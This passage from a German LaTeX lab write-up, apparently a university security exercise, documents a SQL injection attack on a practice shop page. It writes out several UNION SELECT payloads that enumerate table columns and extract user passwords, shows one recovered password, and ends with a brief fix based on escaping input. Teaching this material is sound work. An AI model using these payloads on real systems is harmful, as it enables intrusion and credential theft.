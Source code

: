 \documentclass[10pt,a4paper]{article}
\begin{document}
Glücklicherweise gab uns diese Anfrage direkt den Namen "`accessdata"' zurück, so dass wir nicht lange mit dem LIMIT Befehl alle Einträge durchgehen mussten. Aus dieser Tabelle wollten wir jetzt die einzelnen Spalten abfragen, die zur Verfügung stehen:

\begin{verbatim}
'UNION SELECT NULL,column_name,NULL,NULL FROM information_schema.columns WHERE table_name='accessdata' AND table_schema='secureuserdata' LIMIT 1,1;#
\end{verbatim}

ergab die Spalte "`user"', und:

\begin{verbatim}
'UNION SELECT NULL,column_name,NULL,NULL FROM information_schema.columns WHERE table_name='accessdata' AND table_schema='secureuserdata' LIMIT 2,1;#
\end{verbatim}

ergab die Spalte "`password"'. Hiermit wussten wir, dass in dieser Tabelle also die Passwörter der einzelnen Benutzer gespeichert wurden. Da wir den Benutzer "`jack"' suchten, haben wir einfach mal den Befehl:

\begin{verbatim}
'UNION SELECT NULL,user,password,NULL FROM secureuserdata.accessdata WHERE user='jack';#
\end{verbatim}

eingegeben, und siehe da, als Tool Name erschien der Benutzer "`jack"' und als Tool Beschreibung sein Passwort "`london"'. Alternativ hätten wir auch die einzelnen Tabelleneinträge wieder mit dem Limit Befehl durchgehen können, wie z.B.:

\begin{verbatim}
'UNION SELECT NULL,user,password,NULL FROM secureuserdata.accessdata LIMIT 1,1;#
\end{verbatim}

das Ergebnis für den Benutzer "`paul"' gewesen wäre.


\subsection*{c)}

Maßnahmen für die Sicherung des Shops gegen solche Angriffe wie in Teil b) wären einfach gewesen, wenn man die Werte, die über POST an die "`details\_tools.php"' Seite gegeben wurden, überprüft hätte. So hätte man z.B. alle ' Zeichen (oder für andere Angriffe auch weitere Sonderzeichen) escapen können. Hierfür gibt es in php bereits vorgefertigte Befehle, falls man das nicht per Hand machen will (wäre aber auch sicherer, um nichts zu vergessen).
\end{document}
